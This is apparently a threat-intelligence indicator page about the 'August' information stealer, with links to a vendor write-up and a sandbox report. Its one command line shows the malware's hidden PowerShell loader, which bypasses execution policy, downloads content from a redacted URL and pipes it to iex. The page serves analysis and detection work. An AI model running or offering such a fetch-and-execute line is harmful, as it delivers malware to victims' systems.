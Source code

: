 ## August


#### Commands
---

* Powershell.exe

1.

```
-w hidden -nop -ep bypass (New-Object System.Net.WebClient).DownloadFile('http://[URL].asp') | iex
```


#### Regular Expressions
---

``

``

#### Resources
---

Technical write-ups:
* https://www.proofpoint.com/us/threat-insight/post/august-in-december-new-information-stealer-hits-the-scene

Sandbox reports:
* https://www.hybrid-analysis.com/sample/c432cc99b390b5edbab400dcc322f7872d3176c08869c8e587918753c00e5d4e?environmentId=100

Notes:



 
